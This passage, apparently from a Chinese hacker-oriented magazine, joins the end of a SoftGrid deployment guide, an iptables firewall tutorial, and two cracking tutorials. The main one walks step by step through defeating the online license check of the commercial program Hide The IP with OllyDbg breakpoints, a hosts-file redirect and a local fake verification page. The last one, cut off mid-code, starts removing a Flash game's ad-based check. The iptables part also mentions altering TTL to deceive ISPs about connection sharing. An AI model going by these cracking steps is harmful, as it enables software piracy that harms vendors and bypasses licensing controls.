

图12

导入完成后，在 softgrid server 管理界面中点选 applications，右边可以看得到刚才导入的 sap logon 程序，双击它，在 general 标签的 OSD path 中检测路径是否正确，即 content 共享下的相应 osd 文件。同理检查下面的 Icon Path，如图13所示。

## 3. 客户端的测试

- 1. 安装 softgrid 客户端（MSAppVirt_wd_setup_4.5.0.608），可以通过组策略分发或手动安装。
- 2. 业务客户端软件使用测试。

（2）业务客户端软件使用测试  
当用户登录之后，后台运行的 softgrid 代理服务会自动从 softgrid server 上刷新可用的应用程序，比如这里就是 sap 640，同时桌面上会出现 sap logon 的快捷方式；当用户点击这个快捷方式后，softgrid 代理就会自动从服务器下载应用程序。这种下载并非一次就下载完整个应用程序包，因为完全下载用户会感觉程序反应很慢，所以 softgrid 只会下载开始一部分所需的应用程序代码，随着程序不断运行，再下载需要的代码，这样用户的感觉就像程序安装在本地一样，而且又不占用大量的网络带宽。另外，对于已经下载了的代码，softgrid 会进行本地缓存，加快反应速度，也就是下次可以离线运行。图14是 softgrid 客户端上运行的 sap 640（注意右下角 softgrid 的提示）。


图14

经过这样的部署，整套隔离业务系统就安装完毕了。如果你的公司也需要这样的部署，完全可以参考以上步骤来实现。最后，希望本文能对大家有所帮助。

前置知识：Ubuntu  
关键词：防火墙、netfilter/iptables、规则

### 初探 Ubuntu 内置防火墙之 netfilter/iptables


文/古典娃娃[sec120]

很多版本的 Linux 都内置了 netfilter/iptables 防火墙，最新版 Ubuntu 的 netfilter/iptables 防火墙是 v1.3.8 版，它只读取数据包头，不会给信息流增加负担，也无需进行验证。netfilter 工作在内核，平时我们接触不多，而 iptables 则是让用户定义规则集的表结构，我们经常会用到。netfilter 的强大功能和灵活性是通过 iptables 界面来实现的，所以我们经常将 netfilter/iptables 简称为 iptables。

“iptables [-t table] 命令参数 [match] [target/jump]”。其中 table 用于指定表名，iptables 默认使用 filter 表来执行所有的命令。match 用于细致描述包的某个特点，以使这个包区别于其他所有的包，这里可以指定包的来源 IP 地址、网络接口、端口、协议类型等。target 必须在最后，若数据包符合所有的 match，内核就用 target 来处理它。比如可以让内核把包发送到当前表中的其他链，或者只是丢弃这个包而不做什么处理，或者向发送者返回某个特殊的应答。表1和表2为该命令涉及到的参数和选项。

#### 命令的组成

一条标准的设置防火墙规则的命令为：

| 参数 | 说明 | 举例 |
|---|---|---|
| -A, --append | 在所选择的链末添加规则 | iptables -A INPUT ... |
| -D, --delete | 从所选链中删除规则，有按编号删除和按规则删除两种方法 | iptables -D INPUT --dport 80 -j DROP 或 iptables -D INPUT 1 |
| -E, --rename-chain | 对自定义的链进行重命名 | iptables -E allowed disallowed |
| -F, --flush | 清空所选的链 | iptables -F INPUT |
| -I, --insert | 根据给出的规则序号向所选链中插入规则 | iptables -I INPUT 1 --dport 80 -j ACCEPT |
| -L, --list | 显示所选链的所有规则 | iptables -L INPUT |
| -N, --new-chain | 根据用户指定的名字建立新链 | iptables -N allowed |
| -P, --policy | 为链设置默认的 target，如 DROP 和 ACCEPT | iptables -P INPUT DROP |
| -R, --replace | 在所选中的链里指定的行上替换规则 | iptables -R INPUT 1 -s 192.168.0.1 -j DROP |
| -X, --delete-chain | 删除指定的用户自定义链 | iptables -X allowed |
| -Z, --zero | 把指定链（如未指定则认为所有链）的所有计数器归零 | iptables -Z INPUT |

表1 参数

| 选项 | 说明 |
|---|---|
| `-x, --exact` | 使 `--list` 输出中的计数器显示准确的数值，而不用 K、M、G 等估值。 |
| `-n, --numeric` | 使输出的 IP 地址和端口以数值的形式显示，而不是默认的名字，比如主机名、网络名、程序名等。 |
| `--line-numbers` | 显示出每条规则在相应链中的序号，这样就可以知道序号了，对插入新规则很有用。 |
| `-c, --set-counters` | 在创建或更改规则时设置计数器，语法为 `--set-counters 20 4000`，意思是让内核把包计数器设为 20，字节计数器设为 4000。 |
| `--modprobe` | 此选项告诉 iptables 探测并装载要使用的模块。这是非常有用的一个选项，万一 modprobe 命令不在搜索路径中，就要用到了。有了这个选项，在装载模块时，即使有一个需要用到的模块没装载上，iptables 也知道要去搜索。 |
| `--jump` `-j` | 指定当匹配规则时对数据包的操作，如 DROP、LOG、ACCEPT、REJECT 等。 |

表2 选项

## 1) Matches 匹配

iptables 命令的可选 match 部分指定信息包与规则匹配所应具有的特征（如源地址、目的地址、协议等）。匹配分为通用匹配和特定于协议的匹配两大类，这里介绍可用于采用任何协议的信息包的通用匹配，如表3所示。

| 匹配类型 | 说明 | 举例 |
|---|---|---|
| `-p, --protocol` | 根据协议来匹配数据包 | `iptables -A INPUT -p tcp` |
| `-s, --src, --source, --sport` | 以源地址、端口匹配包 | `iptables -A INPUT -s 192.168.1.1` |
| `-d, --dst, --destination, --dport` | 以目的地址、端口匹配包 | `iptables -A INPUT -d 192.168.1.1` |
| `-i, --in-interface` | 以包进入的端口来匹配包 | `iptables -A INPUT -i eth0` |
| `-o, --out-interface` | 以包离开的端口来匹配包 | `iptables -A FORWARD -o eth0` |
| `-f, --fragment` | 匹配一个被分片的包的第二片或以后的部分 | `iptables -A INPUT -f` |

表3 匹配类型

## 2) target

target 是由规则指定的操作，对与规则匹配的信息包执行这些操作。除了允许用户定义的 target 之外，还有许多可用的 target 选项。这里介绍常用的一些 target 及示例说明，还有许多用于建立高级规则的其他 target，如 LOG、REDIRECT、MARK、MIRROR 和 MASQUERADE 等。常用的 target 操作如表4所示。

| 操作 | 说明 |
|---|---|
| `ACCEPT` | 当数据包与具有 ACCEPT 目标的规则完全匹配时，会被接受，并将停止遍历链。该目标被指定为 `-j ACCEPT`。 |
| `DROP` | 当数据包与 DROP 目标的规则完全匹配时，会丢弃这个包，且不会对该包做进一步的处理，就直接丢弃它。 |
| `REJECT` | 当数据包与 REJECT 目标的规则完全匹配时，会拒绝接受该包，并将错误信息发送回数据包的发送方，该目标被指定为 `-j REJECT`。 |
| `RETURN` | 让与该规则匹配的数据包停止遍历包含该规则的链，如果是 INPUT 之类的链就使用该链的缺省策略来处理该包。它被指定为 `-j RETURN`。 |

表4 操作

## 3) 表

[-t table] 选项允许使用标准表之外的任何表，表中包含仅处理特定类型信息包的规则和链。它有 3 个可用的表选项：filter、nat 和 mangle。该选项不是必需的，如果未指定就以 filter 作为缺省表，如表5所示。

| 表 | 链 | 操作 |
|---|---|---|
| mangle | PREROUTING, POSTROUTING, OUTPUT, INPUT, FORWARD | TOS, TTL, MARK |
| nat | PREROUTING, POSTROUTING, OUTPUT | DNAT, SNAT, MASQUERADE |
| filter | FORWARD, INPUT, OUTPUT | DROP, LOG, ACCEPT, REJECT |

表5 iptables 中的表

mangle 表主要用来 mangle 数据包。我们可以用它来改变不同的包及包头的内容，比如 TTL、TOS 或 MARK。注意 MARK 并没有真正地改动数据包，它只是在内核空间为包设了一个标记，防火墙内的其他规则或程序可以使用这种标记对包进行过滤或高级路由。这个表有 5 个内建的链：PREROUTING 在包进入防火墙之后、路由判断之前改变包；POSTROUTING 是在所有路由判断之后；OUTPUT 在确定包的目的之前更改数据包；INPUT 在包被路由到本地之后，但在用户空间的程序看到它之前改变包；FORWARD 在最初的路由判断之后、最后一次更改包的目的之前 mangle 包。注意，mangle 表不能做任何 NAT，它只是改变数据包的 TTL、TOS 或 MARK，而不是其源/目的地址。NAT 是在 NAT 表中操作的。

mangle 表中有以下的几种操作：TOS 操作用来设置或改变数据包的服务类型域。这常用来设置网络上的数据包如何被路由等策略。注意这个操作并不完善，有时得不到想要的效果。它在 Internet 上还不能使用，而且很多路由器不会注意到这个域值。换句话说，不要设置发往 Internet 的包，除非你打算依托 TOS 来路由，比如用 iproute2。TTL 操作用来改变数据包的生存时间域，我们可以让所有数据包只有一个特殊的 TTL。它的存在有一个很好的理由，那就是我们可以欺骗一些 ISP。为什么要欺骗它们呢？因为它们不愿意让我们共享一个连接。那些 ISP 会查找一台单独的计算机是否使用不同的 TTL，并且以此作为判断连接是否被共享的标志。MARK 用来给包设置特殊的标记，iproute2 能识别这些标记，并根据不同的标记（或没有标记）决定不同的路由，用这些标记我们可以做带宽限制和基于请求的分类。

NAT 表的主要用处是网络地址转换，即 Network Address Translation。做过 NAT 操作的数据包的地址就被改变了。属于一个流的包只会经过这个表一次。如果第一个包被允许做 NAT 或 Masqueraded，那么余下的包都会自动地被做相同的操作。这就是为什么不应该在这个表中做任何过滤的主要原因。NAT 表中有 3 个链：PREROUTING 链的作用是在包刚刚到达防火墙时改变它的目的地址；OUTPUT 链改变本地产生的包的目的地址；POSTROUTING 链在包就要离开防火墙之前改变其源地址。

nat 表中有以下的几种操作：DNAT 操作主要用于这样一种情况，你有一个合法的 IP 地址，要把对防火墙的访问重定向到其他机器上（比如 DMZ），也就是说，我们改变的是目的地址，以使包能重路由到某台主机。SNAT 用于改变包的源地址，这在极大程度上可以隐藏你的本地网络或者 DMZ 等。一个很好的例子是，我们知道防火墙的外部地址，但必须用这个地址替换本地网络地址。有了这个操作，防火墙就能自动地对包做 SNAT 和 De-SNAT（就是反向的 SNAT），以使 LAN 能连接到 Internet。如果使用类似 192.168.0.0/24 这样的地址，是不会从 Internet 得到任何回应的，因为 IANA 定义这些网络（还有其他的）为私有的，只能用于 LAN 内部。MASQUERADE 用于对每个匹配的包都要查找可用的 IP 地址，而不像 SNAT 用的 IP 地址是配置好的。当然，这也有好处，就是我们可以使用通过 PPP、PPPOE、SLIP 等拨号得到的地址，这些地址可是由 ISP 的 DHCP 随机分配的。

Filter 表是专门过滤包的，对包进行 DROP、LOG、ACCEPT 和 REJECT 等操作，也可以预先在其他地方做过滤，但这个表才是设计用来过滤的。几乎所有的 target 都可以在这儿使用，其内建三个链：FORWARD 链过滤所有不是本地产生的，且目的地也不是本地的包；INPUT 针对那些目的地是本地的包；OUTPUT 是用来过滤所有本地生成的包。

#### 规则的保存与恢复

防火墙规则只在计算机处于开启状态时才有效，如果系统被重新引导，这些规则就会自动被清除并重设。我们可以使用 iptables-save 和 iptables-restore 两个命令来保存和恢复我们设置的规则，如表6所示。

| 命令 | 参数 | 说明 | 举例 |
|---|---|---|---|
| iptables-save（保存） | -c | 保存包和字节计数器的值 | `$ iptables-save > iptables-script` |
| iptables-save（保存） | -t | 指定要保存的表，默认是保存所有的表 |  |
| iptables-restore（恢复） | -c, --counters | 要求装入包和字节计数器。如果 iptables-save 保存了计数器，现在想重新装入，就必须用这个参数 | `$ iptables-restore < iptables-script` |
| iptables-restore（恢复） | -n, --noflush | 不要覆盖已有的表或表内的规则。默认是清除所有已存在的规则 |  |

表6 保存和恢复

#### 状态机制

Iptables 是属于有状态（stateful）的防火墙，能够记住存在于自己内、外网络接口（网卡）之间的每一条连接的历史状态，并且动态地对各条连接的历史记录进行更新，依据这些历史状态信息决定哪些外来数据包可以接受，哪些又需要拒绝。这种功能最常见的用处是让系统只接受自己的外出连接而返回来的外来连接，同时拒绝其他试图建立新的 TCP/IP 连接的外来数据包。这些历史连接信息降低了不清白来源的网络通信会话的概率，能够记忆网络通信历史信息的防火墙对合法连接网络两端的用户是件好事，因为这样有助于防止第三方偷偷潜入它们的会话当中。状态机制有 4 种状态，如表7所示。

| 状态 | 说明 |
|---|---|
| NEW | 某个连接的第一个包都是 NEW 状态 |
| ESTABLISHED | 已经建立起连接的包的状态 |
| RELATED | 一个 ESTABLISHED 连接再产生一个主连接之外的连接，这个新的连接就标识为 RELATED |
| INVALID | 说明数据包不能被识别属于哪个连接或没有任何状态 |

表7 状态机制的4种状态

#### 实际应用

上面介绍了这么多理论上的东西，下面我们结合实际应用进行具体说明。forward 功能默认是关闭的，这会防止成为专用边缘路由器。启用 forward 的命令为：`sysctl -w net.ipv4.ip_forward=1` 或 `echo "1" > /proc/sys/net/ipv4/ip_forward`。如果该命令是通过 shell 提示运行的，那么其设置在重新引导后就不会被保存。你可以通过编辑 `/etc/sysctl.conf` 文件来永久性地设置转发，把 `net.ipv4.ip_forward=0` 改成 `1`。

启用 sysctl.conf 文件中的改变命令为：`sysctl -p /etc/sysctl.conf`。这会允许 LAN 节点彼此通信；不过它们没有被允许和外界通信。你还需要配置防火墙的 IP 伪装（IP masquerading），这会把来自 LAN 节点的请求都伪装成防火墙的外部设备（在这个例子中是 eth0）的 IP 地址。命令为 `iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE`。

下面我们正式开始规则设置，如果你对已经存在的防火墙规则不了解，或者已经不适合使用了，我们就可以清除它们重新设置，具体命令如下：

```
清除 filter 中所有规则链中的规则：iptables -F
清除 filter 中使用者自订链中的规则：iptables -X
清除 mangle 表中所有规则链中的规则：iptables -F -t mangle
清除 mangle 表中使用者自订链中的规则：iptables -X -t mangle
清除 NAT 表中所有规则链中的规则：iptables -F -t nat
清除 NAT 表中使用者自订链中的规则：iptables -X -t nat
```

- 1）设置默认规则为丢弃，即当数据包没有匹配链中的任何规则时就丢弃该包。

```
iptables -P INPUT DROP
iptables -P OUTPUT DROP
iptables -P FORWARD DROP
```

- 2）允许访问 80 端口

```
iptables -A INPUT -p tcp -m tcp --sport 80 -j ACCEPT
```

这条规则表示允许远程 80 端口的数据包进入。

```
iptables -A OUTPUT -p tcp -m tcp --dport 80 -j ACCEPT
```

这条规则允许向远程 80 端口发送数据包。

- 3）允许访问 HTTPS

```
iptables -A INPUT -p tcp -m tcp --sport 443 -j ACCEPT
iptables -A OUTPUT -p tcp -m tcp --dport 443 -j ACCEPT
```

- 4）允许远程 SSH 访问

```
iptables -A INPUT -p tcp --dport 22 -j ACCEPT
iptables -A OUTPUT -p udp --sport 22 -j ACCEPT
```

- 5）允许整个 LAN 的转发（假定 eth1 接内部 LAN）

```
iptables -A FORWARD -i eth1 -j ACCEPT
iptables -A FORWARD -o eth1 -j ACCEPT
```

- 6）DMZ 区域设置  
例如要将所有来自 LAN 以外的到端口 80 的 HTTP 请求连接都发送到和内部网络分离的 DMZ（de-militarized zone）上的 HTTP 服务器 10.0.4.2（LAN 192.168.1.0/24 范围之外）。这种网络分段会比允许到内部网络中的机器上的 HTTP 连接更安全。如果 HTTP 服务器被配置接受安全连接，那么端口 443 也必须被转发，网络地址转换（NAT）会调用 PREROUTING 表来把这些分组转发到恰当的目的地。

```
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j DNAT --to-destination 10.0.4.2:80
```

- 7）允许 telnet 至外部主机

```
iptables -A OUTPUT -p tcp --dport 23 -j ACCEPT
iptables -A INPUT -p tcp ! --syn -s any/0 --sport 23 -j ACCEPT
```

- 8）收邮件

```
iptables -A INPUT -i eth0 -p tcp -s any/0 --sport 1024:65535 -d 本地IP --dport 25 -j ACCEPT
iptables -A OUTPUT -o eth0 -p tcp ! --syn -s 本地IP --sport 25 -d any/0 --dport 1024:65535 -j ACCEPT
```

- 9）发邮件

```
iptables -A OUTPUT -o eth0 -p tcp -s 本地IP --sport 1024:65535 -d any/0 --dport 25 -j ACCEPT
iptables -A INPUT -i eth0 -p tcp ! --syn -s any/0 --sport 25 -d 本地IP --dport 1024:65535 -j ACCEPT
```

- 10）访问外部 FTP

```
iptables -A OUTPUT -o eth0 -p tcp -s 本地IP --sport 1024:65535 -d any/0 --dport 21 -j ACCEPT
iptables -A INPUT -i eth0 -p tcp ! --syn -s any/0 --sport 21 -d 本地IP --dport 1024:65535 -j ACCEPT
```

- 11）允许对外 ping 任何主机

```
iptables -A OUTPUT -o eth0 -p icmp -s 本地IP --icmp-type 8 -d any/0 -j ACCEPT
iptables -A INPUT -i eth0 -p icmp -s any/0 --icmp-type 0 -d 本地IP -j ACCEPT
```

- 12）阻塞危险端口，如 31337 到 31340（即黑客语言中的 elite 端口）

```
iptables -A OUTPUT -o eth0 -p tcp --dport 31337 --sport 31337 -j DROP
iptables -A FORWARD -o eth0 -p tcp --dport 31337 --sport 31337 -j DROP
```

本文是我查询和整理了大量关于 iptables 的资料，加上自己对 iptables 的理解而写出来的，但还是有很多东西没有介绍清楚，比如协议方面的。这里只介绍了 iptables 本身的内容，力求简单明了地给大家展示 iptables 的结构，希望能让大家对 iptables 有一个初步的了解。

### 破解 Hide The IP 的网络验证

适合读者：破解爱好者  
前置知识：汇编语言

文／图 Layper

玩了那么久的破解，还没有认真地尝试网络验证破解。一直都觉得网络破解很麻烦，搞定 Hide The IP 这款软件给了我很大的信心。只要方法得当，破解此类软件也是非常简单的。下面大家就看我是怎么 crack 它的。

- 准备工具：OD、PEiD、EasyPHP、dede 等。
- 使用 dede 生成 MAP 文件。
- 首先用 PEiD 侦壳，显示无加壳；软件为 Delphi 7.0 编写，使用 dede 进一步分析。

图1

图2

图3

用 dede 载入 Hide The IP 后，dede 开始处理程序，处理完成之后会跳出“转储成功”消息框，按“确定”按钮就会出现如图2所示的提示框，点击“Yes”。因为这个功能是帮助我们扩展分析 Delphi 程序的单元和类及其他，获取更多的信息对我们是大有益处的，所以要选择“Yes”。同样，后面的“识别标准 VCL 过程”也是选择“Yes”，这也是非常重要的，如图3所示。

dede 是专门为逆向 Delphi（除 .NET 程序外）而设计的，对 Delphi 程序的符号、函数识别率很高（dede 这个功能只有 IDA 能与之一较高下）。

dede 是用来辅助 OD 的，如果一开始就用 OD 来破解，你会发现困难多了。dede 经过较长时间分析后，终于出现了如图4所示的结果，点击“Done”之后，接下来就是用 dede 为 OD 分析做准备了：导出“map”文件，如图5所示。map 文件能够帮助我们创建包含有用的识别信息，包括事件处理和控件参考。在 OD 中，我们使用插件“GODUP”即可导入，如此在 OD 中进行分析就不会困难了。

#### 使用 OD 分析软件

这款软件是有时间限制的，输入假的注册信息后，会出现如图6所示的错误提示，在 OD 中点击右键，选择“查找->所有参考文本串”，会找到以下的错误提示信息：

```text
文本字串参考位于 HideTheI:CODE, 条目 6502
地址=004EEECB,
文本字串=ASCII "Invalid registration."
```

双击来到 CPU 窗口处：

```asm
004EEECB  .  B>mov ecx, 004EF118 ;ASCII "Invalid registration." 来到这里
```

向上查找到是从 004EED31 分支跳转到这个出错的，所以断点应该在 004EED31 之前，我下在 004EEC58 处。

```asm
004EEC58  .  5>push ebp ;在这里下断
004EEC59  .  8>mov ebp, esp
004EEC5B  .  B>mov ecx, 8
```

如果大家跟踪过 Delphi 文件就知道，Delphi 程序有许多库函数，如果人工识别是非常困难的，而用前面的 map 文件来解析反汇编代码，则会使它更具可读性。

在 OD 中选择“插件->GODUP Plugin->Map Loader”中的“Load labels”和“Load comments”，载入刚才用 dede 生成的“hide the ip.map”文件，这样 GODUP 插件就会导入 map 文件中解析出来的标签和注释了。我们来分析一下解析后的代码。

```asm
004EEC58 >push ebp ;<-TForm3@ALButton1Click
;控件 Button1 的 Click 函数开始
004EEC59  mov ebp, esp
004EEC5B  mov ecx, 8
004EEC60  push 0
004EEC62  push 0
004EEC64  dec ecx
004EEC65  jnz short 004EEC60
004EEC67  push ebx
004EEC68  push esi
004EEC69  push edi
004EEC6A  mov ebx, eax
004EEC6C  xor eax, eax
004EEC6E  push ebp
004EEC6F  push <->System.@HandleFinally
004EEC74  push dword ptr fs:[eax]
004EEC77  mov dword ptr fs:[eax], esp
004EEC7A  mov dl, 1
004EEC7C  mov eax, dword ptr [416D8C]
004EEC81  call 00403B38 ;->System.TObject.Create(TObject;Boolean);
004EEC86  mov dword ptr [ebp-4], eax
004EEC89  mov dl, 1
004EEC8B  mov eax, dword ptr [416D8C]
004EEC90  call 00403B38 ;->System.TObject.Create(TObject;Boolean);
004EEC95  mov esi, eax
004EEC97  lea edx, dword ptr [ebp-C]
004EEC9A  mov eax, dword ptr [ebx+300] ;*TForm3.Edit1:TEdit
004EECA0  call 004478D8 ;->Controls.TControl.GetText(TControl):TCaption;
;得到 E-mail 的邮箱地址 layper@12.com
004EECA5  mov ecx, dword ptr [ebp-C]
004EECA8  lea eax, dword ptr [ebp-8]
004EECAB  mov edx, 004EEFEC ;ASCII "email="
004EECB0  call 00404C48 ;->System.@LStrCat3
;把“email=”和“layper@12.com”连接成“email=layper@12.com”
004EECB5  mov edx, dword ptr [ebp-8]
004EECB8  mov eax, dword ptr [ebp-4]
004EECBB  mov ecx, dword ptr [eax]
004EECBD  call dword ptr [ecx+38] ;->TStringList.Add(string)
004EECC0  lea edx, dword ptr [ebp-14]
004EECC3  mov eax, dword ptr [ebx+304]
*TForm3.Edit2:TEdit
004EECC9  call 004478D8 ;->Controls.TControl.GetText(TControl):TCaption
;获取 Serial key 的注册码 1357924680
004EECCE  mov ecx, dword ptr [ebp-14]
004EECD1  lea eax, dword ptr [ebp-10]
004EECD4  mov edx, 004EF0FC ;ASCII "ser="
004EECD9  call 00404C43 ;->System.@LStrCat3
;连接字符成 ser=1357924680
...
*TForm3.ip:TIdHTTP
;注意这里开始使用 TIdHTTP 控件
004EED01  mov ecx, dword ptr [ebp-4]
004EED04  mov edx, 004EF00C ;ASCII "http://www.hide-the-ip.com/checkreg.php"
004EED09  call 0048077C
004EED0E  mov edx, dword ptr [ebp-18]
...
004EED24  mov eax, dword ptr [ebp-1C] ;ASCII "no"
004EED27  mov edx, 004EF03C ;ASCII "yes"
004EED2C  call 00404D48 ;->System.@LStrCmp
004EED31  jnz 004EEEC4
```

输入信息运行，再次下断在 `004EED0E` 后，我们在 OD 处下函数断点：`Bp recv`。

`recv` 是常用的网络破解断点函数，`recv()` 原型为 `int recv(int sockfd, void *buf, int len, unsigned int flags);`。其中 `sockfd` 是接受数据的 socket 描述符，`buf` 为接收缓冲区，`len` 为缓冲区长度，`flags` 常置为 0。`recv()` 返回实际接收字节数，出错返回 `-1` 并设置 `errno`。

F9 运行后断在下面的代码处。

```asm
71A2615A  8BFF   mov edi,edi
71A2615C  55     push ebp
71A2615D  8BEC   mov ebp,esp
71A2615F  83EC10 sub esp,10
71A26162  53     push ebx
```

Recv 成功断在 `71A2615A`，这时查看 OD 右下方堆栈窗口。

```text
0012F4DC  0046DAC2  /CALL 到 recv
0012F4E0  00000260  |Socket = 260
0012F4E4  001E4008  |Buffer = 001E4008
0012F4E8  00008000  |BufSize = 8000 (32768)
0012F4EC  00000000  \Flags = 0
```

在 OD 命令行输入 `DD 001E4008`，然后保持 `recv` 断点不变，`Alt+F9` 返回，可看到 OD 左下方数据窗口数据如下。

```text
001E4008  50545448  HTTP
001E400C  312E312F  /1.1
001E4010  30303220  200
001E4014  0D4B4F20  OK
```

往下拉动数据窗口可以看到这样的代码。

```text
001E4108  746E6F43  Cont
001E410C  2D746E65  ent-
001E4110  65707954  Type
001E4114  6574203A  te:
001E4118  68747478  xt/h
001E411C  0D6C6D74  tml.
001E4120  0E0A0D0A  ..
001E4124  0000006F  o...
001E4128  00000000  ....
```

如果还未能确定是否存在在线验证，保持前面 OD 设置的两个断点 `004EEC58` 和 `004EED0E`。

出现字符串 `"no"` 了，之后就会回到下一个断点 `004EED0E`。

从上面的代码我们可以看出：这款软件使用了网络验证，网络验证的页面是 `http://www.hide-the-ip.com/checkreg.php`，连接起注册信息则为 `http://www.hide-the-ip.com/checkreg.php?email=layper%4012%2Ecom&ser=1357924680`，验证之后要返回 `yes`，如果是 `no` 则出错。

#### 伪装服务器和验证页面

网络验证破解主要是要找出主机的地址和验证页面，然后用一台机器来伪装成验证主机。这款软件的破解我用伪装数据包来破解，即先伪装服务器和验证页面获取伪装的数据包后，恢复原先的网络验证，在程序中直接修改数据包来进行破解的。

既然知道了验证网址是 `www.hide-the-ip.com` 和验证页面是 `checkreg.php`，我们就把自己的机器伪装成 `www.hide-the-ip.com`，建立一个文件 `checkreg.php`，把网络验证改为本机验证。一般伪装主机分 3 步走。

- 1) 修改 Hosts 文件

在你的系统盘路径 `WINDOWS\system32\drivers\etc` 下找到 `hosts`，用记事本打开后，在里面添加一行：

```text
127.0.0.1    www.hide-the-ip.com
```

修改之后保存，这样你的机器就会把 `www.hide-the-ip.com` 解析为自己的机器了，登录 `www.hide-the-ip.com` 就是登录本机了。

- 2) 建立验证页面

用记事本新建一个文件，在里面输入 `yes`，保存为 `checkreg.php`，验证页面就构造好了。

- 3) 架构服务器

这款软件使用的页面是 PHP 文件，所以我们要在本机构架一台 PHP 服务器。在网上下载一个 EasyPHP，把我们的 `checkreg.php` 文件保存到 EasyPHP 所在目录中的 `www` 文件夹中，接着运行 `EasyPHP.exe`，单击“Apache”，选择“开始”，如图7所示，到这里我们就伪装完成了。

#### 再次跟踪验证部分

重新把 Hide The IP 载入 OD 之后，输入注册信息，再次断在 `004EEC58`，F9 或 Shift+F9 运行到断点 `004EED0E`，我们再来看看是否有变化。

```asm
004EED0E  >mov edx, dword ptr [ebp-18]
（前面是 "no"，现在是 "yes"）
004EED11  >mov eax, esi
004EED13  >mov ecx, dword ptr [eax]
004EED15  >call dword ptr [ecx+2C] ;TStringList.SetTextStr(string)
004EED18  >lea ecx, dword ptr [ebp-1C]
004EED1B  >xor edx, edx
004EED1D  >mov eax, esi
004EED1F  >mov edi, dword ptr [eax]
004EED21  >call dword ptr [edi+C] ;TStringList.Get(Integer)
004EED24  >mov eax, dword ptr [ebp-1C]
（注意这里，ASCII "yes"）
004EED27  >mov edx, 004EF03C ;ASCII "yes"
004EED2C  >call 00404D48 ;System.@LStrCmp
004EED31  >jnz 004EEEC4 ;这里不再跳转到出错
```

原本以为这样就可以完成破解了，谁知下面又出现了一个拦路虎。

```asm
004EED37  lea edx, dword ptr [ebp-20]
004EED3A  mov eax, dword ptr [ebx+300] ;*TForm3.Edit1:TEdit
004EED40  call 004478D8 ;Controls.TControl.GetText(TControl):TCaption
004EED45  mov eax, dword ptr [ebp-20] ;00FFD450 (ASCII "layper@12.com")
004EED48  push eax
004EED49  mov eax, dword ptr [4EAC70]
004EED4E  mov eax, dword ptr [eax]
004EED50  mov ecx, 004EF048 ;ASCII "Email"
004EED55  mov edx, 004EF058 ;ASCII "Options"
004EED5A  mov edi, dword ptr [eax]
004EED5C  call dword ptr [edi+4]
004EED5F  lea edx, dword ptr [ebp-24]
004EED62  mov eax, dword ptr [ebx+304] ;*TForm3.Edit2:TEdit
004EED68  call 004478D8 ;Controls.TControl.GetText(TControl):TCaption
004EED6D  mov eax, dword ptr [ebp-24] ;01000F58 (ASCII "1357924680")
```

图8

看看这时候在文件夹里生成了什么？生成了 options.ini 文件，其内容如下：

```ini
[Options]
Email=layper@12.com
Serial=1357924680
Expire=“黑防专用”
Name=layper
```

在 004EED93 处出现异常，不能到达成功的消息框。如果没有前面导入的 map 文件注释，我们可能就会在这里卡住了。注意观察 004EED93 的注释“TStringList.Get(Integer)”，应该是获取字符串。往上看代码 004EED21，也用了“TStringList.Get(Integer)”，这个是获取验证页面字符串“yes”的函数，那么 004EED93 会不会也是用来获取验证页面字符串的函数，由于获取不到而出现异常导致出错呢？于是我把验证文件 checkreg.php 修改为：

```text
yes
“黑防专用”
```

保存好之后再次输入信息验证，终于跳出了可爱的消息框，如图8所示。

- 1) 寻找验证的主机域名和验证页面。
- 2) 改造 hosts 文件和架构服务器，使域名解析到相应 IP（通常是改为本地主机）。
- 3) 根据程序提示构造验证页面。
- 4) 网络验证的 API 断点常用 `bp recv`，以获取缓冲区读取的数据。

经过上面的破解过程，大家应该明白破解有网络验证的软件有以下几个关键点。Hide The IP 是用 Delphi 编写的软件，破解 Delphi 除了选择 dede 之外，还可以用导入 map 文件到 OD 的方法来降低分析代码的难度。顺便提一点，Hide The IP 除了用网络验证方法破解之外，用拦截 ini 函数方法构造 ini 文件破解应该也是可行的，大家可以自己试试看！

适合读者：破解爱好者  
前置知识：Flash

### Flash 地狱文件

#### ——去除 Flash 文件网络验证——

文／图 山东省实验中学 付天顺

一天正忙于制作自己的手机铃声，同学就发过来一个地址，让我把这个网站的 Flash 拿下来，如图1所示，页面中间带有“play”的就是目标。这个很简单啊，直接用迅雷移动到图像上，点下载就成功了。绝对地址为 http://armorgames.com/files/games/shift-751.swf，将## 这个软件中，play 按钮就出来了，这说明 play 按钮不是没有，而是有触发条件


图1

其发给同学，同学没有接收，却说“你打开看看，没有 Play 按钮。”我将信将疑地打开文件一看果真如此，居然和网站上的不一样，于是便有了今天的破解。

刚看到这样的文件，我怀疑是网站有防下载措施，迅雷抓到了一个假地址，于是我又从 IE 临时文件中找到了文件进行对比，发现完全一样。这样，这个想法就排除了。然后我开始仔细观察这个 Flash 文件，突然想到暴风影音，便直接把它放到暴风影音里播放，可以直接播放，而且是按帧播放，这说明文件是完整的，不存在有部分文件在网站上无法正常播放的问题了。于是我又想到了网络验证，国内网站都是在防下载上做文章，如内嵌 Flash 等技术，使迅雷抓到的地址是一个 Flash 播放器地址，下载下来也没用，而这个恰恰可以下载，但却无法游戏。

说干就干，立即用 Flash 反编译软件 ASV4.0 进行反编译，发现这款 Flash 游戏是用 Flash 8 编写的，ASV4.0 无法正常反编译。于是我又找到了另一款软件 SWFDecompiler，直接拖进去就可以了，如图2所示。不过奇怪的是，将游戏拖到这个软件中，play 按钮就出来了，这说明 play 按钮不是没有，而是有触发条件。


图2

继续反编译导出 fla 文件后，用最新的 Flash 8 自带的播放器在本地查看 swf 文件，得到如下提示。

```
LibraryTest::go
loading Google ads swf...
onLoadStart
onLoadComplete
onLoadInit
creating params object
fetching an ad
[object Object]
*** 安全沙箱冲突 ***
SecurityDomain 'http://pagead2.googlesyndication.com/pagead/googleflashadslibrary.swf' 尝试访问不兼容的内容 'file:///F|/hacker/flash破解/源文件/shift%2D751.swf'.
and here
onAdsRequestResult; success = false
```

然后就无法继续播放了，提示需要访问网络。看到这里我们就明白了，这是 Google 的网络验证，看文件名像是用 Google 的广告来验证。这就好办了，打开反编译出的 fla 文件，来到第一帧，查看动作代码：

```
function go(target)
{
    System.security.allowDomain("http://pagead2.googlesyndication.com/pagead");
    Stage.scaleMode = "noScale";
    Stage.align = "TL";
    trace("LibraryTest::go()");
    var _loc3 = target.createEmptyMovieClip("swfClip", target.getNextHighestDepth());
    trace("loading Google ads swf...");
    var _loc1 = new Object();
    _loc1.onLoadStart = function ()
    {
